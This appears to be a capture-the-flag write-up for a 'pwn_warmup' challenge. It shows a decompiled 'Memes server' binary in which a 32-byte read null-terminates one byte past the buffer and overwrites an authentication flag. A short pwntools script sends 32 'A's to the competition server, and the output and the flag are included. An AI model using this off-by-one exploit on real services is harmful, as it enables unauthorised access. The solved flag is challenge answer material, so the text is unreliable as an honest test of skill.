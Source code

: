 
# pwn_warmup

### Question

<img width="492" alt="Screen Shot 2019-03-10 at 7 35 40 PM" src="https://user-images.githubusercontent.com/14992494/54084578-6fefe600-436d-11e9-9bfb-9f578f51f833.png">

### Solution

<img width="674" alt="Screen Shot 2019-03-10 at 7 45 02 PM" src="https://user-images.githubusercontent.com/14992494/54084579-6fefe600-436d-11e9-985c-5a4b8818585a.png">

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  ssize_t sVar1;
  int iVar2;
  undefined local_31 [32];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_11 = 1;
  puts("Memes server");
  printf("Enter the password: ");
  fflush(stdout);
  sVar1 = read(0,local_31,0x20);
  local_31[sVar1] = 0;
  iVar2 = auth(local_31);
  if (iVar2 != 0) {
    local_11 = 0;
  }
  if (local_11 == 0) {
    readMeme();
  }
  else {
    puts("[-] Auth error!");
  }
  return 0xffffffff;
}
```

```
root@kali:~/Desktop# cat meme_server_ex.py 
from pwn import *

ip = "185.66.87.233"
port = "5004"

p = remote(ip, port)

p.sendline("A"*32)

p.interactive()
root@kali:~/Desktop# python meme_server_ex.py 
[+] Opening connection to 185.66.87.233 on port 5004: Done
[*] Switching to interactive mode
Memes server
Enter the password: here is your meme: Aero{d31d0c1f564273c9bf3f1d1e1540c100}
[*] Got EOF while reading in interactive
$  
```

### Flag

Aero{d31d0c1f564273c9bf3f1d1e1540c100}
